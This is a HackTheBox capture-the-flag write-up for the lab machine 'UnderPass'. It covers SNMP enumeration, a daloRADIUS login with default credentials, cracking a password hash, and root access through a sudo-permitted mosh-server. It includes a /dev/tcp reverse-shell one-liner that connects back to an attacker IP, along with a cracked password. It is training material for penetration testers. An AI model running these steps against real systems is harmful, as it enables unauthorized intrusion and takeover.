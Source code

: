 ```yaml
---
title: HackTheBox -UnderPass
author: Bonface
date: 2025-04-11 00:00:00 +0000
categories:
  - HackTheBox
  - Machines
tags:
  - HackTheBox
  - linux
  - nmap
  - web
  - snmp
image:
  path: /assets/img/HTB/Machines/underpass/UnderPass.png
  alt: underpass.htb
---
```


<div align="center"> <script src="https://app.hackthebox.com/profile/1670709"></script> </div>

---
**Underpass** is an easy-rated Linux machine that starts with a default Apache Ubuntu page on port 80. Further enumeration reveals an SNMP service running on UDP port 161, which discloses that the box is hosting **daloRADIUS**. By navigating through the application and using default credentials, access is gained to the operators' panel, where a user hash for `svcMosh` is discovered and cracked. With the obtained password, SSH access is achieved. Privilege escalation is possible due to misconfigured `sudo` permissions allowing `svcMosh` to execute `mosh-server` as root, ultimately leading to full system compromise.


# Enumeration
## port scan

We start off with a typical nmap scan to identify the open ports.  
```bash
sudo nmap --min-rate 10000 10.10.11.48
...[snip]...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

we have two open tcp ports lets now use the nmap scripts for further enumeration.  
```bash
nmap -sC -sV -p22,80 -vv 10.10.11.48 -o nmap/scan1
...[snip]...

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Now lets scan for open udp ports using the `-sU` flag on nmap.  
```nmap
nmap -sU -vv 10.10.11.48 -o nmap/udpscan1 --min-rate 10000
...[snip]...

PORT      STATE  SERVICE         REASON
161/udp   open   snmp            udp-response ttl 63
623/udp   closed asf-rmcp        port-unreach ttl 63
18818/udp closed unknown         port-unreach ttl 63
21576/udp closed unknown         port-unreach ttl 63
21655/udp closed unknown         port-unreach ttl 63
24279/udp closed unknown         port-unreach ttl 63
32780/udp closed sometimes-rpc24 port-unreach ttl 63
32815/udp closed unknown         port-unreach ttl 63
49204/udp closed unknown         port-unreach ttl 63

```

From the scans we have 3 open ports(2 Tcp and 1 Udp).  
The service running on port 22 is `ssh` while port 80 is `http`.  
On the `udp` port we have `snmp`.  

## snmp Enumeration

```bash
snmp-check 10.10.11.48
...[snip]...

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 06:21:14.20
  Uptime system                 : 06:21:02.86
  System date                   : 2025-4-11 16:35:52.0


```

We get a user `steve@underpass.htb` and with this will add `underpass.htb` to etc hosts.  
From the `Hostname` find that `UnDerPass.htb is the only daloradius server in the basin!`  
[daloRADIUS](https://github.com/lirantal/daloradius) is an advanced RADIUS web management application for managing hotspots and general-purpose ISP deployments.From the repository we get the directory structure.  

## Web Enumeration(80)
Visiting the site we get  Apache2 Default Page.  
![image](https://gist.github.com/user-attachments/assets/89743026-f8fc-4de6-886f-4e88c05f5fa2)

Lets also visit `daloradius` ,  since the page does not load we can run a directory scan using `feroxbuster`   
```bash
feroxbuster -u http://underpass.htb/daloradius

...[snip]...

200 http://underpass.htb/daloradius/doc/install/INSTALL
200 http://underpass.htb/daloradius/LICENSE

```

The scan has lots of `301` but we have the outstanding two.  

**`http://underpass.htb/daloradius/doc/install/INSTALL`**  
```
...[snip]...
  daloRADIUS version 0.9 stable release
 by Liran Tal <liran.tal@gmail.com>
 =========================================


...[snip]...
 5. INSTALLATION COMPLETE
 ------------------------
    Surf to http://yourip/daloradius
    Login:
		username: administrator
		password: radius

    Notice: don't forget to change the default password in the Configuration -> Operators page
			don't forget to also REMOVE completely or rename to some random undetected name the update.php script!
```

We now have the version that we can use to search for an exploit and the default   credentials:
	`username` : `administrator`
	`password` : `radius`  
All we have to do is search for a login page. We can fuzz the application again or just search for the file in the github repository, to get `https://github.com/lirantal/daloradius/blob/master/app/users/login.php`
thus in our site will be `http://underpass.htb/daloradius/app/users/login.php`
![image](https://gist.github.com/user-attachments/assets/867651b6-5427-4018-aef6-6f2eb2eba347)

The default `creds dont` work on this page lets move on to the other login page we saw in : `http://underpass.htb/daloradius/app/operators/login.php` 
![image](https://gist.github.com/user-attachments/assets/9bf2e998-2412-40da-881e-3baee0536255)
Logged in, now lets poke around and see what we have.  
![image](https://gist.github.com/user-attachments/assets/d3bbeb35-471e-4541-96c1-67c96aca21f7)

we have:
	`username` : `svcMosh`
	`pass_hash` : `412DD4759978ACFCC81DEAB01B382403`
	`password` : `...`

With this we can use `Hashcat` to crack the password but also you can crack using some online tool like [crackstation](https://crackstation.net/).  
```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --username --show
svcMosh:412dd4759978acfcc81deab01b382403:underwaterfriends
```

## Foothold
We had ssh running on port 22 and now that we have valid user and password why not try logging.  
	`username` : `svcMosh`
	`password` : `underwaterfriends`

```bash
ssh svcMosh@underpass.htb
```


# Priv_Esc
Since we have the password we start off with `sudo -l` to lists the commands **we are allowed to run with `sudo`** without providing a full shell.  
```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$ 

```

We can run `/usr/bin/mosh-server` **as root**   
**Mosh** (Mobile Shell) is usually used to provide a more stable remote shell experience over unreliable networks.  
```bash
svcMosh@underpass:~$ mosh 
Usage: /usr/bin/mosh [options] [--] [user@]host [command...]
        --client=PATH        mosh client on local machine
                                (default: "mosh-client")
        --server=COMMAND     mosh server on remote machine
                                (default: "mosh-server")

```

we can execute commands with  mosh-server, lets get a reverse shell as root.  
```bash
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" bash -i >& /dev/tcp/10.10.16.20/1337 0>&1
svcMosh@underpass:~$ 

```

I keep getting errors with that but here is one that works:
```
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost
svcMosh@underpass:~$ 

...[snip]...

root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@underpass:~# whoami
root
root@underpass:~# ls
root.txt
root@underpass:~# 

```

# Reference
- https://medium.com/@yashpawar1199/comprehensive-guide-to-snmp-protocol-vulnerabilities-and-pentesting-1490ee0dd665
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp#1611621016110162udp---pentesting-snmp


